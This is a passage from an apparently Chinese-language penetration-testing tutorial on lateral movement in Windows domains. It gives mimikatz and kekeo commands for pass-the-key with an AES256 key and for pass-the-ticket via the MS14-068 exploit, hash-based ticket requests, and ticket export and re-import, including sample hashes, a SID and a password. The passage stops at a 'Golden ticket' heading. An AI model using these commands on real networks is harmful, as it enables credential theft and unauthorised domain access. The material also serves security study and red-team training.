 ## 3.6 PTK(pass the key)在横向移动利用

利用ekeys aes256  
Sekurlsa::ekeys 获取aes  
Sekurlsa::pth /user:Administrator /domain:test2 /aes256:6e09831ee88fb85c8a3f4a88dea70e2a1b18197b70d57a9eebad73b45137433d  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-7ae382f54268063f6432f72f2299e482.png)

# 四、 PTT票据传递在横向移动利用

PTT(pass the ticket)不再使用NTLM进行认证，而是利用kerberos协议进行攻击,相对于PTH来说其不需要管理员权限，有三种常见的攻击方式：MS14-068(漏洞编号kb3011780)、Golder ticket、Silver ticket，其中后两者是将连接合法的票据注入内存中属于权限维持（后面写）。

## 4.1 利用相关漏洞

第一种使用MS14-068 exp：  
先用whoami /user查看当前用户sid  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-4442c4c60f8cd166f64edcac3ec177c0.png)  
Kerberos::purge或klist purge先清空当前机器中的所有凭证：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-56a69cdb9a3a3ddc669dba7ca499ebf4.png)  
利用MS14-068生成相应凭证：  
MS14-068.exe -u c@test.com -s S-1-5-21-2273191065-1635484360-3888421177-1105 -d 192.168.202.148 -p c@zxcvbnm123  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-bb411d52f6b1e093d5097fd89445f482.png)  
使用mimikatz将票据注入内存：  
Kerberos::ptc “TGT\_c@test.com.ccache”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-19120307267f685441ca8d340bc07620.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-7dab8d07e21ced5b3fc93a07fe1d4c27.png)  
后续利用：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-5e2eb47e4b18725ed00a5898efdb0189.png)  
第二种kekeo利用hash生成票据：  
Kekeo “tgt::ask /user:c /domain:test.com /ntlm:abe09320f41c250eadcc5bfba77a5e1a”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-2ec562acbd1af58250f91cc3414d5211.png)  
同样清楚票据并导入生成的票据：  
kerberos::ptt TGT\_c@TEST.COM\_krbtgt~test.com@TEST.COM.kirbi  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-37c001c08e0fadbfb556cf08032f124f.png)  
第三种利用mimikatz收集本地的票据并重新导入（导出需要管理员权限）：  
Sekurlsa::tickets /export  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-5decec282597bb5dff9b96ccfdee0fb0.png)  
使用Kerberos::ptt 进行导入票据。

## 4.2 Golder ticket
